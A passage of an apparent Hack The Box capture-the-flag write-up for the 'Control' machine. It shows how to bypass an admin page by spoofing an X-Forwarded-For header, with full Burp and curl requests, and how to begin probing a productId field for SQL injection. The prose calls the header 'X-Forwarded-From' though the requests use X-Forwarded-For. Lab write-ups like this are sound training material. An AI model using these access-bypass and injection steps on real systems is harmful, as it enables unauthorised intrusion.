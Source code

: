 
3. As stated on admin.php a header option is missing. Adding this up with that they have the SSL Certs on 192.168.4.28/myfiles
   it would make sense that that IP belongs to an admin. We can forge the HTTP GET Request to make it look like it was forwarded from
   that IP using the header X-Forwarded-From: IP-ADDRESS option.

   Burp Repeater:
    GET /admin.php HTTP/1.1
    Host: control.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://control.htb/
    Connection: close
    Upgrade-Insecure-Requests: 1
    X-Forwarded-For: 192.168.4.28

   Via CURL:
    root@p3:/opt/htb/machines/control# curl -H "X-Forwarded-For: 192.168.4.28" -v "http://control.htb/admin.php"

   Or using the Mozilla Firefox addon - HTTP Header Live to modify your requests in real time.


4. On the admin-site we find a few new URLs, search_products.php, create_product.php and create_category.php.
   Being able to request directly in to the database (MariaDB) sounds promising, maybe we can get a shell from here.

   Investigating further and we find view_product.php, and within function.js.

     function viewProduct(id) {
     	document.getElementById("productId").value = id;
     	document.forms["viewProducts"].action = "view_product.php";
     	document.forms["viewProducts"].submit();
     }


5. Here we have a input variable called productId. Trying to inject data to it, it seems to be vulnerable to SQLi (error 500).

   Request, productId=1:
    POST /view_product.php HTTP/1.1
    Host: control.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Content-Type: application/x-www-form-urlencoded
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Length: 11

    productId=1
